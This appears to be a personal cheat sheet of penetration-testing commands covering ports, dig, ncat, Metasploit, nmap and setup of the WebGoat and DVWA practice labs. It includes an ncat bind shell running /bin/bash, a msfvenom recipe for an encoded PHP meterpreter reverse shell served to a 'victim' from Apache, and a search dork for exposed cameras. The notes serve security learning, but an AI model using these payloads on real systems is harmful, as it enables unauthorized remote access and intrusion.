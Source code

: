 # Hacking Tools

******************** Ports information **************************
There are 65535 port numbers (2^16).

20 and 21: FTP (File Transfer Protocol --> Transfer files between client and server)
22: SSH (Secure Shell --> Tunneling protocol for secure network connection)
23: Telnet
25: SMTP (Simple Mail Transfer Protocol --> Used for email)
53: DNS (Domain Name System --> Domain names to ip adresses)
67 and 68: DHCP (Dynamic Host Configuration Protocol --> Assigns IP adresses to devices dynamically)
80: HTTP (Hypertext Transfer Protocol --> Makes world wide web possible)
110: POP3 (Post Office Protocol --> For receiving emails)
123: NTP (Network Time Protocol --> Clocks synchronization)
143: IMAP (Internet Message Access Protocol --> For receiving emails)
179: BGP (Boder Gateway Protocol --> Used for establish connections between large networks)
443: HTTPS (Hypertext Transfer Protocol Secure --> Secure and encrypted version of http)
500: ISAKMP (Internet Security Association and Key Management Protocol --> Is part of the process of setting up secure IPsec connections)
3389: RDP (Remote Desktop Protocol --> Allows users to connect their computers from another device)

More information at:  (IANA --> Internet Assigned Numbers Authority) https://www.iana.org/assignments/service-names-port-numbers/service-names-port-numbers.xhtml
*************************************************************



--------DIG (Tool for interrogating DNS name servers)----------------

dig nsl.<domain> (Information about a domain)
dig +short ns.google.com (Get one of the google's ip adresses)
dig + short -x <IP adress> (Get belonging domain of that ip)

inurl:"ViewerFrame?Mode=" (useful for finding cameras)


--------NCAT (Tool for reading and writing data across the network)----------------

ncat -l 127.0.0.1 8080 (Use ncat as a server running in port 8080)
ncat 127.0.0.1 8080 (Establish a connection with the server)

// It behaves like a real time chat

ncat -l --exec "/bin/bash" 127.0.0.1 8080 (For execute the given command)


------------------------ARMITAGE (Graphical user interface for Metasploit)------------------------

----------------------------------------METASPLOIT------------------------------------------------

*(S): For shell commands

// Metasploit modules are: Exploits, payloads, auxiliary, encoders, nops, posts, evasion.
// Modules are located in: /usr/share/metasploit-framework/modules
// Try to run the database service to initialize the msf faster 'service postgresql start'
// Dictionaries for brute-force attacks available at /usr/share/metasploit-framework/data/wordlists

msfdb (Manage metasploit framework database) (S)
msfconsole (Intiallize the metasploit framework) (S)

banner (Display a banner)
db_status (Check the metasploit frmaework database status)
use <module> (Use a certain metasploit module)
show <options> (Show information about a moudule)
set <option> <value> (Set options, use 'show options' to see them)
search <field> <parameter> (Make queries about modules. e.g. type:payload)
back (Return to metasploit framework main command line interface)
run (Running an auxiliary)
exploit (Running an exploit)

// msfvenom is a payload generator
// For instance, we can make a reverse shell  by using the payload 'php/meterpreter/reverse_tcp'

msfvenom -p <payload> <option>=<value> <other optional flags> > <file name to contain the payload>
msfvenom -p php/meterpreter/reverse_tcp LHOST=<Our ip address> LPORT=4444 -e php/base64 -f raw > shell.php (Setting the payload with our machine listening. '-e' flag for setting an appropiate encoder, '-f' flag for setting the file format as a raw file, also we are saving the payload into 'shell.php' file)

// LPORT is 4444 by default (try 'msfvenom -p <payload> --list-options' for looking for options)
// Inside the file we'll find a single line of base64 encoded payload, so we wrap that line like that:
<?php
<encoded payload>
?>
// Then the machine will read it as php code

// Now we can start an apache2 web server so the victim download the payload from there. Copy the file into '/var/www/html', start the server and enter your ip adress into the browser.
// Go to msfconsole and use 'exploit/multi/handler' then set LHOST to your address and run the exploit for start listening. Once the victim machine opens the file a session will be created.



----------------------------------------NMAP-------------------------------------------------------

// Use -sS for a stealth scan, -sT flag is louder. Use -sV for showing services version

nmap <flags> <IP adress> (See open ports)


---------------------------------------------------------------------------------------------------

// WebGoat is a deliberately insecure web application maintained by OWASP designed to teach web application security lessons. 
docker run -it -p 127.0.0.1:80:8888 -p 127.0.0.1:8080:8080 -p 127.0.0.1:9090:9090 -e TZ=Europe/Amsterdam webgoat/goatandwolf:v8.2.2 (Starting WebGoat)
// Web application located at: http://127.0.0.1:8080/WebGoat/login


// Now we are going to set up the DVWA web application
// We put DVWA file into /var/www/html
// Accesing MariaDB
mysql -u root -p
// mysql commands ends with semicolon
CREATE DATABASE dvwa; (Creating a database called dvwa)
GRANT all ON dvwa.* to dvwa@localhost identified by 'password'; (Granting permissions to the database)
flush privileges;
// Exit the MariaDB and rename the file into /var/www/html/DVWA/config
mv config.inc.php.dist config.inc.php
// Rewrite the file so set the user and the password to the ones setted in the database created
// Rewrite /etc/php/7.4/apache2/php.ini: allow_url_include = On
// Restart php service
// Enter localhost and create database
// Log in with admin123:password

--------------------------------------ZED ATTACK PROXY---------------------------------------------

// Install zaproxy
// For quick scan use: http://www.webscanttest.com

---------------------------------------------------------------------------------------------------
